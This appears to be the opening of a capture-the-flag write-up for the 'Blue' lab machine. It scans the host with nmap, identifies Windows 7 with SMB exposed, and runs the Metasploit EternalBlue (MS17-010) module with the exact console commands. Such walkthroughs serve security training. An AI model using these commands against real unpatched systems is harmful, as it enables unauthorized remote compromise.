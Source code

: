     nmap -A -T4 10.10.10.40

![](/images/blue/1. nmap.png "nmap")
![](/images/blue/2. nmap_2.png "nmap")

Here we see Windows 7, SP1 with ports 135, 139, and 445 open.

smb-security-mode shows us "message_signing" disabled.

Looks like a candidate for Eternal Blue, MS17-010. Google yields a bunch of results, but we are going to look at:

Exploitation using Metasploit: [https://www.rapid7.com/db/modules/exploit/windows/smb/ms17_010_eternalblue](https://www.rapid7.com/db/modules/exploit/windows/smb/ms17_010_eternalblue)

Manual exploitation: [https://null-byte.wonderhowto.com/how-to/manually-exploit-eternalblue-windows-server-using-ms17-010-python-exploit-0195414/](https://null-byte.wonderhowto.com/how-to/manually-exploit-eternalblue-windows-server-using-ms17-010-python-exploit-0195414/)

<p>&nbsp;</p>
=======================================================

## Exploitation using Metasploit

=======================================================


On the Rapid7 website we see the following information:

![](/images/blue/3. rapid7.png "rapid7")

![](/images/blue/4. rapid7_2.png "rapid7")

A note here explains the exploit does not work all the time but can be re-run. Keep this in mind, even when we move on to manual exploitation.

![](/images/blue/5. rapid7_3.png "rapid7")

As usual, the Rapid7 site gives us the Metasploit module commands we need to run, so let's load msfconsole and then try them out.

    msfconsole

    use exploit/windows/smb/ms17_010_eternalblue

    show options

![](/images/blue/6. msf.png "msf")

We have RHOSTS mandatory and other options as optional. If we do not supply anything but RHOSTS then it will attempt an anonymous login. 

Since we have no other credentials for this box, we will supply RHOSTS and run it:

    set rhosts 10.10.10.40

    run
